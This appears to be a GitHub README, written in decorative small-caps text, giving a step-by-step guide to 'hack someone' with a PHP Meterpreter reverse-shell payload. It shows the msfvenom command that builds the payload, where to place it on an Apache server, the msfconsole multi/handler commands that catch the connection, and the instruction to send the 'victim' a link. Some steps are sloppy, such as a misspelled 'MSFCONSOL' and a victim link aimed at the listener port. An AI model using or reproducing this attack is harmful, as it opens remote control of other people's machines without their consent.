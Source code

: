# HOW-TO-HACK-SOMEONE-USING-A-PHP-PAYLOAD
HOW TO HACK SOMEONE USING A PHP~PAYLOAD

💖sᴏ ʟᴇᴛs ᴍᴀᴋᴇ ᴘᴀʏʟᴏᴀᴅs ᴡɪᴛʜ ᴘʜᴘ ᴜsɪɴɢ ᴍsғᴠᴇᴍᴏɴ

💖ᴡʜᴀᴛ ɪs ᴍsғᴠᴇᴍᴏɴ?? ᴡᴇʟʟ ᴍᴇᴛᴀsᴘʟᴏɪᴛ ғʀᴀᴍᴇᴡᴏʀᴋ ᴠᴇɴᴏᴍ ɪs ᴀ ᴘᴀʏʟᴏᴀᴅ ɢᴇɴ ᴜsᴇᴅ ᴏɴ ʟɪɴᴜɴx ᴛᴏ ɢᴇɴᴇʀᴀᴛᴇ ᴘᴀʏʟᴏᴀᴅs ғᴏʀ ᴇxᴘʟᴏɪᴛᴀᴛɪᴏɴ

💖ʟᴇᴛs sᴛᴀʀᴛ ʙʏ sᴛᴀʀᴛɪɴɢ ᴀᴘᴀᴄʜᴇ2 sᴏ ᴏᴘᴇɴ ᴛᴇʀᴍɪɴᴀʟ ᴀɴᴅ ᴛʏᴘᴇ

ᴄᴏᴅᴇ:
–––––––––––––––––––
sᴇʀᴠɪᴄᴇ ᴀᴘᴀᴄʜᴇ2 sᴛᴀʀᴛ


🌀sᴛᴇᴘ 1:
ɴᴏᴡ ᴡᴇ ɴᴇᴇᴅ ᴏᴜʀ ʟᴏᴄᴀʟ ɪᴘ ᴏʀ ᴇxᴛᴇʀɴᴀʟ ɪᴘ ғᴏʀ ʟᴏᴄᴀʟ ɪᴘ ᴇɴᴛᴇʀ

ᴄᴏᴅᴇ:
–––––––––––––––––––
ɪғᴄᴏɴғɪɢ
ᴀɴᴅ ғᴏʀ ᴇxᴛᴇʀɴᴀʟ ɢᴏᴏɢʟᴇ ᴡʜᴀᴛs ᴍʏ ɪᴘ
ɴᴏᴛᴇ ɪғ ᴜsɪɴɢ ᴇxᴛᴇʀɴᴀʟ ʟɪɴᴋ ᴜ ɴᴇᴇᴅ ᴛᴏ ғᴏʀᴡᴀʀᴅ ᴛʜᴇ ᴘᴏʀᴛs ᴏɴ ʏᴏᴜʀ ʀᴏᴜᴛᴇʀ

🌀sᴛᴇᴘ 2:
ɴᴏᴡ ʏᴏᴜ ʜᴀᴠᴇ ᴛʜᴇ ʟᴏᴄᴀʟ ɪᴘ, sᴏ ʟᴇᴛs ᴍᴀᴋᴇ ᴛʜᴇ ᴘᴀʏʟᴏᴀᴅ
ᴇɴᴛᴇʀ ᴛʜɪs ᴄᴏᴍᴍᴀɴᴅ:

ᴄᴏᴅᴇ:
–––––––––––––––––––
ᴍsғᴠᴇɴᴏᴍ -ᴘ ᴘʜᴘ/ᴍᴇᴛᴇʀᴘʀᴇᴛᴇʀ/ʀᴇᴠᴇʀsᴇ_ᴛᴄᴘ ʟʜᴏsᴛ= 192.168.8.107 ʟᴘᴏʀᴛ=4444 -ᴇ ᴘʜᴘ/ʙᴀsᴇ64 -ғ ʀᴀᴡ > /ʀᴏᴏᴛ/ᴅᴇsᴋᴛᴏᴘ/ʜᴏᴍᴇ.ᴘʜᴘ

🌀sᴛᴇᴘ 3:
ɴᴏᴡ ɢᴏ ᴛᴏ ᴛʜᴇ ᴅᴇsᴋᴛᴏᴘ ᴀɴᴅ ᴄᴏᴘʏ ᴛʜᴇ ᴘᴀʏʟᴏᴀᴅ ᴛᴏ ʏᴏᴜʀ ʜᴛᴍʟ ғɪʟᴇ ɪɴ /ᴠᴀʀ/ᴡᴡ ᴡ/ʜᴛᴍʟ ғᴏʟᴅᴇʀ
ʀᴇᴍᴏᴠᴇ ᴛʜᴇ sᴘᴀᴄᴇ ^^

🌀sᴛᴇᴘ 4:
ɴᴏᴡ ᴏᴘᴇɴ ᴀ ɴᴇᴡ ᴛᴇʀᴍɪɴᴀʟ ᴀɴᴅ ᴛʏᴘᴇ

ᴄᴏᴅᴇ:
–––––––––––––––––––
MSFCONSOL

🌀sᴛᴇᴘ 5:
TYPE BELOW COMMAND'S

ᴄᴏᴅᴇ:
–––––––––––––––––––
USE EXPLOIT/MULTI/HANDLER

ᴄᴏᴅᴇ:
–––––––––––––––––––
SET PAYLOAD PHP/METERPRETER/REVERSE_TCP

ᴄᴏᴅᴇ:
–––––––––––––––––––
SET LHOST [YOUR LOCAL IP]

ᴄᴏᴅᴇ:
–––––––––––––––––––
SET LPORT 4444

ᴄᴏᴅᴇ:
–––––––––––––––––––
EXPLOIT

🌀sᴛᴇᴘ 6:
ɴᴏᴡ sᴇɴᴅ ᴛʜᴇ ᴠɪᴄᴛᴜᴍ ᴛʜᴇ ʟɪɴᴋ 192.168.8.107:4444/Home.php

🌀sᴛᴇᴘ 7:
ɴᴏᴡ ᴛʏᴘᴇ ʜᴇʟᴘ ᴀɴᴅ ʏᴏᴜ ɢᴇᴛ ᴀ ғᴜʟʟ ʟɪsᴛ ᴄᴏᴍᴍᴀɴᴅs ʏᴏᴜ ᴄᴀɴ ʀᴜɴ ᴜɴᴅᴇʀ ᴍᴇᴛᴀsᴘʟᴏɪᴛ

